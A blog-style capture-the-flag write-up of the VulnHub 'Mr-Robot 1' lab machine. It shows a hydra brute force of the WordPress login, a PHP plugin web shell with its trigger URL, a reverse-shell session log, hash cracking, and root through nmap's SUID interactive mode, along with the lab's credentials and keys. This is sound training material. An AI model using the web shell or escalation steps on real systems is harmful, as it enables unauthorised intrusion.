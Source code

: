 ```yaml
---
layout: post
title: Mr-Robot 1
date: 2019-09-15
author: the-bilal-rizwan
comments: true
categories: vulnhub
tags: [ctf,vulnhub]
---
```


## Mr-Robot 1

> The vulnhub page says we need to find 3 keys so lets get started

Started off with nmap and found 2 open ports

On port 80 I saw the following page I did go through all the options / commands listed but it wasn't anything just videos and pictures.

![main page]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/index.png)



I ran dirsearch and found robots.txt in which I manage to find key 1

`key 1 or 3`

![key1]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/flag1.png)


The other file `fsociety.dic` was actually a word list which I saved it for later use.


Looking at the dirsearcher results found out that the webserver was actually running wordpress. 
I used wpscan didn't find anything usefull and was stuck for a while. 

Then I thought to use the wordlist to try to bruteforce the login. Since I have watched Mr robot the first username that came in my mind was `Mr.robot` I used that as a username but didn't find anything then I use "Elliot" as a username and bruteforced the login with hydra and voila!

Elliot and the password ER28-0652!

Logged in to the dashboard of wordpress


![Dashboard]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/dashboard.png)




from here we can uplaod a simple plugin to get a shell


zip the following php code 

```php
<?php
/*
Plugin Name: Shell
Plugin URI: https://themctfwriteups.com/shells
Description: This hacks you 
Author: the-bilal-rizwan
Version: 1.0.0
Author URI: https://thectfwriteups.com/
*/

echo shell_exec($_GET['cmd']);
```

upload it and you get a shell using the following link 


http://TARGET_IP/wp-content/plugins/shell.php_/shell.php?e=id


![Shell]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/shell.png)



Then I got a reverse shell

```bash
nc -lvp 1337
listening on [any] 1337 ...
192.168.114.136: inverse host lookup failed: Unknown host
connect to [192.168.114.128] from (UNKNOWN) [192.168.114.136] 58895
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
<ps/wordpress/htdocs/wp-content/plugins/shell.php_$ cd /home
cd /home
daemon@linux:/home$ ls
ls
robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt  password.raw-md5
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ 



I cracked the password and this is what I got 

user: robot
pass: abcdefghijklmnopqrstuvwxyz


robot@linux:~$ ls  
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```

`key 2 of 3`
822c73956184f694993bede3eb39f959 



now moving on to root


Running LinEnum.sh I found the following SUID binaries


![linEnum]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/enum.png)

LinEnum flagged out that nmap also has SUID bit set 

```bash
robot@linux:/tmp$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-or-3.txt
cat key-3-or-3.txt
cat: key-3-or-3.txt: No such file or directory
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
# 
```

`key 3 or 3`
04787ddef27c3dee1ee161b21670b4e4



